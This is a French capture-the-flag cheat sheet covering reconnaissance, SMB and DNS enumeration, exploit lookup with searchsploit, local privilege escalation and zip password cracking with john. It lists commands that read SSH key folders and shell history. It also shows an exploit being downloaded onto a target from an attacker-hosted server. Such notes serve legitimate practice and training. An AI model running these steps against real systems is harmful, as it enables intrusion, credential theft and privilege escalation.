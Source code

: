 # Capture The Flag

- [Reconnaissance](#reconnaissance)
  - [TODO Enumération SMB](#todo-enumération-smb)
- [DNS](#dns)
- [Vulnérabilités](#vulnérabilités)
- [Local Privilege Escalation](#local-privilege-escalation)
- [Cassage de mot de passe](#cassage-de-mot-de-passe)
- [SQLite](#sqlite)

---

Liens :
- https://attack.mitre.org/matrices
- https://www.thehacker.recipes

Départ :
- commencer par brancher le câble réseau 😉
- lancer Wireshark pour observer ce qu'il se passe sur la ligne
- s'assigner une IP sur le même réseau

## Reconnaissance

De manière générale :
- remarquer les versions

Si t'obtiens un accès sur un linux/windows :
- regarder l'historique des commandes
- regarder dans `$HOME/.ssh/`
- regarder la table ARP (pour découvrir des hôtes sans faire de scan)
- regarder les routes pour découvrir d'autres réseaux

Sur Linux :
```bash
history
find /root /home -name *history*

find {/root,/home/*}/.ssh

ip n
ip -br a; echo; ip r
```

Sur Windows :
```powershell
ipconfig -all
arp -a
route
```

### TODO Enumération SMB

Si les ports `139` et `445` sont ouverts, il y a des chances que SMB tourne sur la machine.

```bash
enum4linux -U <ip>
```

## DNS

Si on a trouvé un serveur DNS :
```bash
echo 'nameserver <ip>' >> /etc/resolv.conf
```

Voir tous les enregistrements d'un domaine :
```bash
host -a example.com
```

Mapper un domaine : https://dnsdumpster.com

Pour faire un transfert de zone :
```bash
dig AXFR domain.name @192.168.1.53
```

## Vulnérabilités

Pour chercher des vulnérabilités :
- https://www.exploit-db.com
- https://nvd.nist.gov/vuln/search

ou la commande `searchsploit`:
```bash
# pour chercher (case insensitive AND)
searchsploit cutenews
# lire l'exploit
searchsploit -x <filename>
# copier l'exploit dans le CWD
searchsploit -m <filename>
```

## Local Privilege Escalation

Sur la machine cible :
```bash
# obtenir la version du noyau Linux
uname -a

# télécharger l'exploit (et le stocker en RAM)
wget URL > /dev/shm/lpe
```

Sur ta machine :
```bash
# regarder s'il existe des exploit
searchsploit 4.15
# le télécharger
searchsploit -m <filename>
# l'héberger
python -m SimpleHTTPServer
```

## Cassage de mot de passe

Pour extraire le hash du mot de passe d'un zip : `zip2john file.zip > hash.txt`

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## SQLite

```bash
sqlitebrowser fichier.sqlite
```
